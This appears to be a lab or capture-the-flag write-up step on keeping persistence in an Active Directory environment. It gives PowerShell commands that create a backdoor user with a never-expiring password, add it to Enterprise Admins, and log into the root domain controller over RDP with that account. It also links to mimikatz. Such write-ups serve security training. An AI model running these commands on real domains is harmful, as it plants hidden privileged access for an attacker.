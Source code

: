 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Download mimikatz]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`


![[Maintain persistence-20240613153305218.webp]]

### Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240616142921373.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


`
## RDP to ROOTDC

With our new created user, we can just login in the ROOTDC as an Enterprise Admin.

Computer: `10.200.X.100`

### Connecting from a Client Machine

1. **Open Remote Desktop Connection**:
    
    - Press `Win + R`, type `mstsc`, and press `Enter`.
    - ![[Maintain persistence-20240615154522456.webp]]
2. **Enter the Host Machine’s Name or IP Address**:
    
    - In the Remote Desktop Connection window, enter the computer name or IP address of the host machine.
3. **Enter Credentials**:
    
    - When prompted, enter the username and password for the account on the host machine.
    - Username: `kairosroot`
    - Password: `Capstone1@`
1. **Optional: Save Connection Settings**:
    
    - You can save the connection settings to an RDP file by clicking on **Show Options** > **Save As**.
5. **Connect**:
    
    - Click **Connect** to start the remote session.

    ![[Maintain persistence-20240616151550123.webp]]


**Next step:** [[RDP to BANKDC from host CORPDC]]
